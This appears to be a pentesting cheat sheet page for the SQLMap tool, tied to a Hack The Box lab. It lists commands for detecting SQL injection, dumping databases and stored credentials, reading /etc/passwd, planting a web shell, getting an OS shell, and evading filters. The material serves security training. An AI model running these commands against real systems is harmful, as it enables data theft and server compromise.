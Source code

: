```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# SQLMap

## Commands

### Detection

{% tabs %}
{% tab title="URL (GET)" %}
```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch -v 0
```
{% endtab %}

{% tab title="URL (POST)" %}
{% code overflow="wrap" %}
```bash
sqlmap -u "http://www.example.com/vuln.php"  --data "param=value" --batch -v 0
```
{% endcode %}
{% endtab %}

{% tab title="File" %}
```bash
sqlmap -r request_burp.req --batch -v 0
```
{% endtab %}

{% tab title="Aggresive" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --level=5 --risk=3
```
{% endtab %}
{% endtabs %}

### Data Exfil

{% tabs %}
{% tab title="DB" %}
```bash
sqlmap -r request_burp.req --banner --current-user --current-db --is-dba
```
{% endtab %}

{% tab title="Tables" %}
```bash
sqlmap -r request_burp.req -D testdb --tables
```
{% endtab %}

{% tab title="Table Data" %}
```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump
```
{% endtab %}

{% tab title="Columns" %}
```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump -C col1,col2
```
{% endtab %}

{% tab title="Rows" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump -C --start=1 --stop=10
```
{% endcode %}
{% endtab %}

{% tab title="Schema" %}
```bash
sqlmap -r request_burp.req --schema
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Cond Enum" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump --where="col1 LIKE 'f%'" --batch -v 0
```
{% endcode %}
{% endtab %}

{% tab title="Full DB Enum" %}
```bash
sqlmap -r request_burp.req -D testdb --batch -v 0
```
{% endtab %}

{% tab title="Full DBMS" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req --dump-all --exclude-sysdbs --batch -v
```
{% endcode %}
{% endtab %}

{% tab title="Hail Mary" %}
```bash
sqlmap -r request_burp.req --all --batch -v 0
```
{% endtab %}
{% endtabs %}

### Advanced Data Exfil

{% tabs %}
{% tab title="Table Name" %}
```bash
sqlmap -r request_burp.req --search -T tableName --batch -v 0
```
{% endtab %}

{% tab title="Col Name" %}
```bash
sqlmap -r request_burp.req --search -C colName --batch -v 0
```
{% endtab %}

{% tab title="Connection Creds" %}
```bash
sqlmap -r request_burp.req --passwords --batch -v 0
```
{% endtab %}
{% endtabs %}

### OS Exploitation

{% tabs %}
{% tab title="Read" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --file-read "/etc/passwd"
```
{% endtab %}

{% tab title="Write" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --os-shell
```
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
DBAs need certain privileges to be able to write files. Local access is also required such as write permissions in the directory we want to write to.
{% endhint %}

### Bypasses

{% tabs %}
{% tab title="Unique Value" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --randomize=rp 
```
{% endtab %}

{% tab title="Calculated Param" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --eval="import hashlib; h=hashlib.md5(id).hexdigest()"
```
{% endcode %}
{% endtab %}

{% tab title="Agent" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --random-agent
```
{% endcode %}
{% endtab %}

{% tab title="Chunked" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --chunked
```
{% endtab %}

{% tab title="HPP" %}
```bash
sqlmap -r request_burp.req --batch -v 0 -hpp
```
{% endtab %}
{% endtabs %}

## Usage

{% hint style="info" %}
The lab used is from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) section of the[ Attacking Enterprise Networks](https://academy.hackthebox.com/module/details/163) module from HTB.
{% endhint %}

### cURL

Copy as `cURL` from browser's Network tab (Figure 1).

<figure><img src="../../../.gitbook/assets/sqlmap_curl_copy.png" alt=""><figcaption><p>Figure 1: Copying the cURL command via Mozilla's Network tab.</p></figcaption></figure>

Change `curl` to `sqlmap` (Figure 2). If a specific parameter needs to be tested, we can use the `*` as follows: `--data 'uid=1*&name=test'`.&#x20;

> _`--batch` chooses the defaults when prompted, `-v 0` reduces the verbosity level._

<figure><img src="../../../.gitbook/assets/sqlmap_curl2sqlmap.png" alt=""><figcaption><p>Figure 2: Changing cURL to sqlmap and we are good to go!</p></figcaption></figure>

### HTTP Requests

Capture the Request Headers and POST data via the browser or Burp (Figure 3).

> _From Mozilla `Copy Value` -> `Copy Request Headers` and then add the parameters via `Copy Value` -> `Copy POST Data`._

<figure><img src="../../../.gitbook/assets/sqlmap_copy_reqheaders_burp.png" alt=""><figcaption><p>Figure 3: Copying the POST request to a file with Burp Suite.</p></figcaption></figure>

Supply the file to SQLMap (Figure 4).

<figure><img src="../../../.gitbook/assets/sqlmap_req_file.png" alt=""><figcaption><p>Figure 4: Using SQLMap with a request file.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="GitHub Repo" %}
{% embed url="https://github.com/sqlmapproject/sqlmap" %}
{% endtab %}

{% tab title="Wiki" %}
{% embed url="https://github.com/sqlmapproject/sqlmap/wiki/Introduction" %}
{% endtab %}
{% endtabs %}
